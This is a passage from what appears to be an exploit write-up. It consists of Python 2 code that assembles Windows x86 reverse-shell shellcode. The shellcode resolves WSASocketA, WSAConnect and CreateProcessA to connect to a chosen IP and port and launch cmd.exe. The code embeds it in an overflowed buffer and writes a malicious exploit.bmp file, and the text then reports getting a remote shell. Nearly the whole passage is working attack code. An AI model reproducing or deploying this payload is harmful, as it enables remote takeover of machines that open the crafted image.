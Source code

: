 ```py
    sh +="\x8b\x14\x96\x01\xca\x31\xc0\x50\x83\xec\x18\x8d\x34\x24\x89\x16\x89\xcf\x68\x73\x41\x42\x42\x66\x89\x44\x24\x02\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x8d\x04\x24\x50\x51\xff\xd2\x83\xc4\x10\x89\x46\x04\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x8d\x0c\x24\x51\x57\xff\x16\x83\xc4\x0c\x89\x46\x08\x31\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x8d\x0c\x24\x51\x57\xff\x16\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x66\x89\x4c\x24\x02\x68\x33\x32\x2e\x64\x68\x77\x73\x32\x5f\x8d\x0c\x24\x51\xff\xd0\x83\xc4\x08\x89\xc7\x31\xc9\x68\x75\x70\x41\x41\x66\x89\x4c\x24\x02\x68\x74\x61\x72\x74\x68\x57\x53\x41\x53\x8d\x0c\x24\x51\x50\xff\x16\x83\xc4\x0c\x89\x46\x0c\x31\xc9\x68\x74\x41\x42\x42\x66\x89\x4c\x24\x02\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x8d\x0c\x24\x51\x57\xff\x16\x83\xc4\x0c\x89\x46\x10\x31\xc9\x68\x63\x74\x41\x41\x66\x89\x4c\x24\x02\x68\x6f\x6e\x6e\x65\x68\x57\x53\x41\x43\x8d\x0c\x24\x51\x57\xff\x16\x83\xc4\x0c\x89\x46\x14\x31\xc9\x51\x66\xb9\x90\x01\x29\xcc\x8d\x0c\x24\x31\xdb\x66\xbb\x02\x02\x51\x53\xff\x56\x0c\x31\xc9\x51\x51\x51\xb1\x06\x51\x83\xe9\x05\x51\x41\x51\xff\x56\x10\x97\x31\xc9\x51\x51\x51\x51\xc6\x04\x24\x02\x66\xc7\x44\x24\x02"
    sh += struct.pack('>H', port)
    sh += "\xc7\x44\x24\x04"
    sh += socket.inet_aton(ip)
    sh += "\x31\xc9\x8d\x1c\x24\x51\x51\x51\x51\xb1\x10\x51\x53\x57\xff\x56\x14\x31\xc9\x39\xc8\x75\xe9\x31\xc9\x83\xec\x10\x8d\x14\x24\x57\x57\x57\x51\x66\x51\x66\x51\xb1\xff\x41\x51\x31\xc9\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\xb1\x44\x51\x8d\x0c\x24\x31\xd2\x68\x65\x78\x65\x41\x88\x54\x24\x03\x68\x63\x6d\x64\x2e\x8d\x14\x24\x53\x51\x31\xc9\x51\x51\x51\x41\x51\x31\xc9\x51\x51\x52\x51\xff\x56\x04\x50\xff\x56\x08"
    sh += '\x00'*3 # pad to simplify the encode_with_zero.
    print sh.encode('hex')
    return sh

over += encode_with_zero(shellcode('127.0.0.1', 34343, False)) # To test in Win7.

over = over.ljust(overlen, 'B')
b += over

data = 'C'*size
b += data

with open("exploit.bmp","wb") as f:
  f.write(b)
```

Then we have a remote shell like this.

